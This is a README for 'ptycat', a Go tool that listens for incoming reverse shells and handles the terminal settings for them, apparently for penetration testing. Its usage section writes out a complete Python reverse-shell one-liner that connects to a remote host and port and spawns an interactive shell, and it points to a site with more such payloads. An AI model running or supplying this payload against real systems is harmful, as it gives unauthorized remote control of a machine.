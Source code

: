 # ptycat

Aren't you tired of catching netcat/bash callbacks and forgetting how to muck with tty settings? Tired of hitting CTRL-Z and performing `stty` magic? Me too!

### Installation
```go get github.com/dropk1ck/ptycat```

### Usage
```
ptycat -p <port to listen on>

# ensure you use a reverse shell that spawns a pty on the remote end, like this:
# find more examples at revshells.com
export RHOST="localhost";export RPORT=9000;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

And that's it! CTRL-C, up-arrow, tab-complete to your heart's content.
